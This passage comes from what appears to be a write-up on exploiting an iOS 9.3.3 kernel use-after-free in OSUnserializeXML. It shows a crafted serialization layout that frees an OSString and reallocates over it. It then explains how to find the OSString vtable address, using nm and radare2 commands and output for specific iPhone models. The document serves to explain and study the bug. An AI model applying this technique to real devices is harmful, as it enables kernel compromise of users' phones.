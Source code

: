     >
    >     kOSSerializeSymbol,     // some name
    >     // ...
    >     kOSSerializeString,     // string that'll get freed
    >     // ...
    >
    >     kOSSerializeObject | 1, // same name as above
    >     kOSSerializeBoolean,    // just any value
    >
    >     kOSSerializeObject | 1, // same name again
    >     kOSSerializeData,       // data that replaces the string
    >     // ...
    >
    >     kOSSerializeSymbol,
    >     // ...
    >     kOSSerializeObject | 2, // reference to overwritten string
    >
    > So, game on! :D

## Part One: Obtaining the OSString vtable address

All of `OSData`, `OSString` and `OSSymbol` contain both a buffer pointer and length field, which we could abuse together with `IORegistryEntryGetProperty` to retrieve arbitrary kernel memory. So in theory, we could overwrite our freed `OSString` to mimic any of these. However:

- The 64-bit panic leak works by far best with the `OSString` class.
- An `OSString` is the best fit for reallocation over another freed `OSString`, the other two are larger.
- `OSString`

So the `OSString` vtable it the one of choice. Now let's look at how to get it.

#### The good: decrypted kernels

If [keys are available](https://www.theiphonewiki.com/wiki/Firmware_Keys/9.x), we can just grab the kernelcache from our IPSW, run it through [`xpwntool(-lite)`](https://github.com/sektioneins/xpwntool-lite) and [`lzssdec`](http://nah6.com/~itsme/cvs-xdadevtools/iphone/tools/lzssdec.cpp), and we've got the raw kernel binary.  
Since decrypted kernels are symbolicated, we merely have to search its symbol table for `__ZTV8OSString` (symbols starting with `__ZTV` are vtables):

    $ nm kernel | grep __ZTV8OSString
    803ece8c S __ZTV8OSString           # iPhone4,1 9.3.3
    803f4e8c S __ZTV8OSString           # iPhone5,4 9.3.3
    ffffff80044ef1e0 S __ZTV8OSString   # iPhone6,1 9.3.3

As one can see with a hex viewer (I'm using [`radare2`](https://github.com/radare/radare2) here), however (first column is offsets, rest is data):

    $ r2 -c '0x803f4e8c; xw 32' -q iPhone5,4/kernel 2>/dev/null
    0x803f4e8c  0x00000000 0x00000000 0x80321591 0x80321599  ..........2...2.
    0x803f4e9c  0x8030d605 0x8030d4a5 0x8030d5fd 0x8030d5f5  ..0...0...0...0.


